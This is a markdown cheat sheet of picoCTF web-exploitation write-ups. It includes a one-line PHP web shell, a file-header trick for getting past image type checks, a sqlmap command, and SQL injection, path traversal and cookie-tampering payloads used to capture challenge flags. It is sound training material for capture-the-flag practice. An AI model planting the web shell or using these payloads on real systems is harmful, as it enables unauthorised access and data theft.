## Web Exploitation

### inspect
  - wget -m -p -E -k -K -np HOST_URL

### shells
#### php
- ```<?php echo shell_exec($_GET['e'].' 2>&1'); ?>```
- bypass php `exif_imagetype` function: change with `hexedit` file header to `FF D8 FF E0` jpg signatures.


### sql injection
- can use `like` sql operation in blind sql injection.["for case senstive like in mysql must use `like binary`"]
#### sqlmap
- sqlmap -u "HOST_URL" --proxy=http://127.0.0.1:8080 --string="YOUR_PATTERN" --auth-type=Basic --auth-cred=USERNAME:PASSWORD --data "filed=filed_value"


### picoCTF 2024
#### IntroToBurp


> fill "Registration" and in next step don't send "OPT" and [DONE].

---
---
### picoCTF 2023
#### More SQLi


> just inject `' or 1=1;--` in password field.

<br>

> list all of tables with this query : `SomeThings' UNION SELECT name, sql, null from sqlite_master;--`



<br>

> in `more_table` table `flag` cloumn is exist, so we trying to "select flag from more_table" with this query : `SomeThings' UNION SELECT id, flag, 3 from more_table;--` and [DONE].



---
---
### picoCTF 2022
#### SQLiLite


> in first step use we trying to login as "admin" user with this request and inject `' or '1'='1';--` in password filed.



> after login see this massage so we trying to inspect this page and [DONE].



---
#### SQL Direct


> i use docker postgres container for connect this PostgreSQL server:



> trying to print list of all tables with this query ` \dt+ *.*` to find related table to this question.



> Dump 'flags' tables with this query : `select * from flags` and [DONE].



---
#### Roboto Sans


> trying to load site and see first page.


> The name of this challenge reminds us of the "robots.txt" file so after load this site i try to print "robots.txt"‌ file.



> in this file some information like [Base64](https://en.wikipedia.org/wiki/Base64) format, so i try [CyberChef](https://gchq.github.io/CyberChef/) to decode this strings.



> in next step open file "js/myfile.txt" and [DONE].



---
#### Power Cookie


> trying to load first page and see this page:



> hint "Do you know how to modify cookies?" so go to cookies and check them :



> in next step i press the "Continue as guest" button and go to this page:



> so i try to change "isAdmin" cookies and change the valuse of "isAdmin" to 1 and [DONE]:



---
#### Forbidden Paths


> load site first page :



> This page receives the name of the file and prints its content. what happend if i use relative path like `../../../../../flag.txt` as file name ? use reletive path and [DONE].


